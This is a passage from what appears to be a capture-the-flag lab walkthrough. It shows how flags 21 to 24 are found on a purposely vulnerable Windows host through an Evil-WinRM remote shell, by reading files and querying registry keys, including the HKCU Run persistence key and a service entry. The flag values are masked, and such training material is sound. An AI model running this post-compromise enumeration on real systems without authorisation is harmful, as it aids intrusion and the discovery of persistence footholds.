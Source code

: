 ```powershell
# Get the flag
*Evil-WinRM* PS C:\> Get-Content C:\Public\taskflag.txt
FLAG{M***********4}
```

**🎯 FLAG 21 FOUND**: FLAG{M**********4} - Scheduled task output

### FLAG 22: Registry HKLM

**Location**: HKLM registry  
**Difficulty**: Easy

```powershell
# Query specific registry key
*Evil-WinRM* PS C:\> reg query "HKLM\SOFTWARE\VulnApp" /v LicenseKey

HKEY_LOCAL_MACHINE\SOFTWARE\VulnApp
    LicenseKey    REG_SZ    FLAG{P**********0}
```

**🎯 FLAG 22 FOUND**: FLAG{P**********0} - Registry HKLM

### FLAG 23: Registry HKCU Run Key

**Location**: Current User Run key  
**Difficulty**: Medium

```powershell
# Check Run keys for persistence
*Evil-WinRM* PS C:\> reg query "HKCU\Software\Microsoft\Windows\CurrentVersion\Run"

HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
    UpdaterFlag    REG_SZ    cmd /c echo FLAG{A*************1} > C:\Temp\run_flag.txt

# Execute the command
*Evil-WinRM* PS C:\> cmd /c echo FLAG{A**************1} > C:\Temp\run_flag.txt
*Evil-WinRM* PS C:\> Get-Content C:\Temp\run_flag.txt
FLAG{A************1}
```

**🎯 FLAG 23 FOUND**: FLAG{A**********1} - Registry Run key

### FLAG 24: Service Registry

**Location**: Service registry entry  
**Difficulty**: Hard

```powershell
# Query service-specific registry
*Evil-WinRM* PS C:\> reg query "HKLM\SYSTEM\CurrentControlSet\Services\VulnScanner" /v Flag

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\VulnScanner
    Flag    REG_SZ    FLAG{P***********9}
```
